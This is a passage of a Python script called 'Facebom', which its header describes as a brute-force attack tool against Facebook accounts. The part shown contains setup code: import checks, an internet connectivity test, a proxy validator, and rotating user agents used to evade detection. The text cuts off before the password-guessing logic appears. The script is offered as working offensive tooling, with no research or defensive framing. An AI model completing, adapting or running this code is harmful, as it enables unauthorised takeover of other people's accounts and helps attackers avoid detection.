#!/usr/bin/python
# -*- coding: utf-8 -*-

######################
# SCRIPT : Facebom
#    JOB : Brute Force Attack On Facebook Accounts
#Codedby : DENNIS O. SANGOAN
######################
##--------------------- Import Libraries --------------------##
import socket,time,os,optparse,random,re
try:
  import requests
except ImportError:
  print("[!] Error: [ requests ] Module Is Missed \n[*] Please Install it Using this command> [ pip install requests ]")
  exit(1)
try:
  import mechanize
except ImportError:
      print("[!] Error: [ mechanize ] Module Is Missed \n[*] Please Install it Using this command> [ pip install mechanize ]")
      exit(1) 
os.system("cls||clear")

## COLORS ###############
wi="\033[1;37m" #>>White#
rd="\033[1;31m" #>Red   #
gr="\033[1;32m" #>Green #
yl="\033[1;33m" #>Yallow#
#########################

################## check internet Connection ######
def cnet():                                       #
   try:                                           #
      ip = socket.gethostbyname("www.google.com") #
      con = socket.create_connection((ip, 80), 2) #
      return True                                 #
   except socket.error:                           #
         pass                                     #
   return False                                   #
                                                  #
###################################################

#### Check Proxy ####
def cpro(ip,port=None):
  proxy = '{}:8080'.format(ip) if port ==None else '{}:{}'.format(ip,port)
  proxies = {'https': "https://"+proxy, 'http': "http://"+proxy}
  try:
    r = requests.get('https://www.wikipedia.org',proxies=proxies, timeout=5) 
    if ip==r.headers['X-Client-IP']: return True
    else : return False
  except Exception : return False
#### Choice Random User-Agent ####
def useragent():
    useragents = [
           'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/534.24 (KHTML, like Gecko) RockMelt/0.9.58.494 Chrome/11.0.696.71 Safari/534.24',
           'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36',